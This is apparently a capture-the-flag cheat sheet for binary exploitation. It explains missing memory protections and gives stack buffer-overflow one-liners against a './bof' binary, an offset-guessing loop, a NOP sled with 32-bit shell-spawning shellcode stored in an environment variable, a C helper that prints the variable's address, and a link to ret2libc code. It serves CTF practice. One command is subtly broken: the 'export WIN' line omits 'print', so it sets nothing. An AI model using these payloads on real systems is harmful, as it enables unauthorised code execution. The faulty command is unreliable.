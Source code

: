 > No RELRO: Possible to overwrite global variable

> No canary: Possible to smash the stack

> NX disabled: Possible to write and execute from the stack

> No PIE: Virtual address it should use and keeps its memory layout quite static

## Quick scripts

- `Find offset (64 bit)`

  - [pwntools-code]()

## GDB

- `Pipe python output`

  - `r < <(python -c "print '\x41' * 500")`

## Buffer overflow

- `bof guessing offset`

  - `for i in {20..28}; do echo $i; python -c "print 'A' * $i + '\xee\xba\xf3\xca'" | ./bof ; done`
  - `(python -c "print 'A' * 24 + '\xee\xba\xf3\xca'"; cat) | ./bof`

- `Jump to env`

  - ```sh
    export WIN=$(python -c "'\x90' * 100 + '\x31\xc0\x99\xb0\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80'")
    ```
  - ```c
    #include <stdio.h>
    #include <stdlib.h>
    int main(int argc, char *argv[]) {
      char *nix = getenv("WIN");
      printf("%p\n", nix);

      return 0;
    }
    ```

## Return 2 libc

- `ret2libc`

  - [pwntools-code](https://github.com/ByamB4/Capture-The-Flag/blob/master/Binary%20Exploitation/src/return2libc-basic-syntax.py)

